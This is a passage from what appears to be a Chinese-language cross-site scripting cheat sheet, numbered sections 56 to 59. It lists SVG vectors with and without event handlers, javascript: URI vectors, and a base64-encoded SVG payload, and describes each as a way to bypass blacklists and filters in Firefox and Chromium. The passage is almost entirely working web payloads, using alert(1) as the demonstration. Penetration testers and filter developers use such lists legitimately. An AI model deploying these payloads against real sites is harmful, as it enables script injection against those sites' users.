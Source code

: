 ##### 56.SVG Vectors with Event Handlers (带有事件处理程序的SVG向量)

```
以下payload它可以在Firefox上触发，但是通过在<set>中添加attributename=x参数也可以在Chromium中工作。用于黑名单绕过,"Set"也可以替换为"animate"。

<svg><set onbegin=alert(1)>
<svg><set end=1 οnend=alert(1)>
```

##### 57.SVG Vectors without Event Handlers (不带事件处理程序的SVG向量)

```
以下payload用于避免过滤器查找事件处理程序或src、data等。进行url编码后的最后一个payload仅适用于Firefox 

<svg><a><rect width=99% height=99% /><animate attributeName=href
to=javascript:alert(1)>
<svg><a><rect width=99% height=99% /><animate attributeName=href
values=javascript:alert(1)>
<svg><a><rect width=99% height=99% /><animate attributeName=href to=0
from=javascript:alert(1)>
<svg><use xlink:href=data:image/svg
%2Bxml;base64,PHN2ZyBpZD0ieCIgeG1sbnM9Imh0dHA6Ly93d3cudzMub3JnLzIwMDAv
c3ZnIiB4bWxuczp4bGluaz0iaHR0cDovL3d3dy53My5vcmcvMTk5OS94bGluayI
%2BPGVtYmVkIHhtbG5zPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hodG1sIiBzcmM9Imp
hdmFzY3JpcHQ6YWxlcnQoMSkiLz48L3N2Zz4=%23x>
```

##### 58.Vectors without Event Handlers (不带事件处理程序的向量)

```
如果web应用不允许，则payload用作事件处理程序的替代项。如payload本身所述,有些需要用户交互才能触发 

<script>alert(1)</script>
<script src=data:,alert(1)>
<iframe src=javascript:alert(1)>
<embed src=javascript:alert(1)>
<a href=javascript:alert(1)>click
<math><brute href=javascript:alert(1)>click
<form action=javascript:alert(1)><input type=submit>
<isindex action=javascript:alert(1) type=submit value=click>
<form><button formaction=javascript:alert(1)>click
<form><input formaction=javascript:alert(1) type=submit value=click>
<form><input formaction=javascript:alert(1) type=image value=click>
<form><input formaction=javascript:alert(1) type=image src=SOURCE>
<isindex formaction=javascript:alert(1) type=submit value=click>
<object data=javascript:alert(1)>
<iframe srcdoc=<svg/onload=alert(1)>>
<svg><script xlink:href=data:,alert(1) />
<math><brute xlink:href=javascript:alert(1)>click
```

##### 59.Vectors with Agnostic Event Handlers (带有未知事件处理程序的向量)
